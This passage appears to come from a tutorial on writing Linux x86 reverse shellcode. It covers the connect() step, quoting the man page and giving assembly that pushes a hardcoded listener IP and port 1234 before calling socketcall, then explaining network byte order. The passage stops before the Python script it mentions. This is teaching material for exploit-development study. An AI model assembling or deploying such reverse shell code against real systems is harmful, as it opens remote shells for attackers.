 <p style="text-align:justify;">The following snippet describes the <strong>connect</strong> system call implementation that comes next in the process of creating the <strong>reverse shellcode</strong>. Below is the <strong>connect</strong> system call prototype according to the <a href="https://man7.org/linux/man-pages/man2/connect.2.html">man</a> page</p>

<h3>Connect Function Synopsis</h3>

```c
#include <sys/types.h>
#include <sys/socket.h>

int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

<p style="text-align:justify;">The <strong>connect</strong>&nbsp;system call connects the socket referred to by the file descriptor <strong>sockfd</strong> to the address specified by <strong>addr</strong>. The <strong>addrlen</strong> argument specifies the size of <strong>addr</strong>. The format of the address in <strong>addr</strong> is determined by the address space of the socket <strong>sockfd</strong>; for more details see <a href="https://man7.org/linux/man-pages/man2/socket.2.html">socket</a>. If the socket <strong>sockfd</strong> is of type <strong>SOCK_DGRAM</strong>, then <strong>addr</strong> is the address to which datagrams are sent by default, and the only address from which datagrams are received. If the socket is of type <strong>SOCK_STREAM</strong> or <strong>SOCK_SEQPACKET</strong>, this call attempts to make a connection to the socket that is bound to the address specified by <strong>addr</strong>.</p>

<h3>Connect :</h3>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
;; sa.sin_family = AF_INET;
;; sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
;; sa.sin_port = htons(REMOTE_PORT);
;; connect(sockfd, (struct sockaddr *)sa, sizeof(sa));

pop ebx          <span style="color:#33cccc;">; assign ebx with value (2) </span>
push 0x04c8a8c0  <span style="color:#33cccc;">; push IP 192.168.200.4 on the stack </span>
push word 0xd204 <span style="color:#33cccc;">; push port 1234 on the stack </span>
push bx          <span style="color:#33cccc;">; push AF_INET constant into the 16 bytes register avoiding nulls </span>
mov ecx, esp     <span style="color:#33cccc;">; perform stack alignment - ecx points to struct </span>
push 0x10        <span style="color:#33cccc;">; the size of the port  </span>
push ecx         <span style="color:#33cccc;">; pointer to host_addr struct </span>
push edi         <span style="color:#33cccc;">; save socket descriptor sockfd to struct </span>
mov ecx, esp     <span style="color:#33cccc;">; perform stack alignment - ecx points at struct </span>
inc ebx          <span style="color:#33cccc;">; use the connect system call (3) </span>
mov al, 0x66     <span style="color:#33cccc;">; call the socketcall system call </span>
int 0x80         <span style="color:#33cccc;">; call interrupt </span>
</pre>

<p style="text-align:justify;">As seen at the code above in red, the tcp PORT and the IP are in hex format. They both pushed on the stack after transformed in network byte order. That happened because ports and addresses are always specified in calls to the socket functions using the network byte order convention. This convention is a method of sorting bytes independently of specific machine architectures. The following python script does the network byte convention and then transforms the decimal value into hex in order to use it when the port pushed on the stack</p>
